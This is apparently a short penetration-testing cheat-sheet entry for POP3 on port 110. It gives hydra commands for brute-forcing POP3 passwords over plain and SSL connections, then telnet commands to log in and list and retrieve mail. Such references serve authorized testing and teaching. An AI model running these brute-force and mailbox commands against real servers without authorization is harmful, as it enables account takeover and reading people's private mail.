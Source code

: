 # POP3 - 110

#### Brute force <a href="#brute-force-3" id="brute-force-3"></a>

```
hydra -l <USER> -P <PASSWORDS_LIST> -f <IP> pop3 -V
hydra -S -v -l <USER> -P <PASSWORDS_LIST> -s 995 -f <IP> pop3 -V
```

#### Read mail <a href="#read-mail" id="read-mail"></a>

```
telnet <IP> 110

USER <USER>
PASS <PASSWORD>
LIST
RETR <MAIL_NUMBER>
QUIT
```
